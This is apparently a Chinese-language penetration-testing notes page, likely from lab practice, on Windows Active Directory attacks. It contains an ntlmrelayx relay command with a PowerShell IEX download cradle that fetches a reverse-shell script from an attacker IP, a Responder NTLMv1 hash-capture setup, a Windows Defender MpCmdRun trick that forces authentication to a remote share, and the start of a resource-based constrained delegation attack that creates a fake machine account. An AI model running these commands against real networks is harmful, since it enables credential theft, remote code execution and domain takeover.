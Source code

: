 ```powershell
python ~/tool/impacket-dacledit/examples/ntlmrelayx.py --no-http-server -smb2support -t 192.168.198.212 -c "powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.159/rev.ps1')\""
```

执行命令后得到 rev shell
```powershell
dir \\192.168.45.159\qwe
```

### lmcompatibilitylevel Level 0,1,2 
https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level
验证 lmcompatibilitylevel 的值
```powershell
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel
```

```
sudo responder -I tun0 --lm  (kali)
```

修改 Challenge set :
- Responder.conf
![](photos/Pasted%20image%2020240208154422.png)

```
C:\"Program Files"\"windows defender"\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.9\share\file.txt
```

拿到 hash 后使用工具转换 hash 去破解
https://github.com/evilmog/ntlmv1-multi/tree/master


### Kerberos 基于资源的约束委派攻击

先决条件
```
Get-DomainObject -Identity '[Distinguishied Name]' | select ms-ds-machineaccountquota   (> 0 ?)
get-domaincontroller | select name,osversion | fl    (Version > Windows Server 2012 ?)
get-domaincomputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl   (变量为空 ?)
```

用到的脚本及软件，加载全部脚本
```
-a----          2/9/2024   9:21 PM         616938 Powermad.ps1
-a----          2/9/2024   9:21 PM         770279 PowerView.ps1
-a----         2/10/2024   1:02 AM         446976 Rubeus.exe
```

ATTACK

创建 FAKE 计算机 (Powermad)
```powershell
*Evil-WinRM* PS C:\Users\support\downloads> new-machineaccount -machineaccount fakecomputer -password $(ConvertTo-SecureString 'xek@123' -asplaintext -force)
[+] Machine account fakecomputer added
```
